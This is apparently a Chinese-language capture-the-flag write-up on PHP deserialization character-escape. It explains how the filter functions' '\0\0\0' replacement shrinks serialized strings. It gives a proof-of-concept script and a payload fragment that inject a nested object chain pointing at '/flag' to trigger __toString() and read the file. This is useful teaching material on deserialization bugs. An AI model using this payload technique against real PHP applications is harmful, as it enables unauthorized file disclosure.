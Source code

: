 ```
//省略了存储序列化数据的过程,下面是取出来并反序列化的操作
$b = unserialize(read(write(serialize($a)))); 
```

很明显，我们需要利用 file_get_contents(); 读取文件，将 flag 读取出来，但他个 __toString() 方法，我们需要触发这个方法，当反序列化出对象后，被当作字符串使用时，就可以触发。

```
function write($data) {
    return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}
 
function read($data) {
    return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}
```

由这段代码可知，如果发现 ``不可见字符*不可见字符``，字符串就会增多，接着又将 ``\0\0\0`` 的6个字符变成3个字符 ``不可见字符*不可见字符``，我们自己是不会去写入不可见字符的在这道题中，相反可以故意写入 ``\0\0\0`` 使得字符串减少，通过计算逃逸字符，读取flag文件。

题目中序列化对象是 $a，里面有俩个参数，username 和 password，我们要传入这两个参数值，来达到目的。

按照流程，先来个模板：

```
<?php
	highligh_file('字符减少.php');
	
	class A {
		public $username;
		public $password;
	}
	
	class B {
		public $b = 'gqy';
	}
	class C {
		public $c = "/flag";
	}
	
	$a = new A();
	$b = new B();
	$c = new C();
	
	$b->b = $c;
	$a->username = '\0\0\0\0\0\0\0\0\0';
	$a->password = $b;
	echo "<br>".serialize($a);
?>
```

[![2fZ2nJ.png](https://z3.ax1x.com/2021/06/11/2fZ2nJ.png)](https://imgtu.com/i/2fZ2nJ)

```
";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:5:"/flag";}}}
```

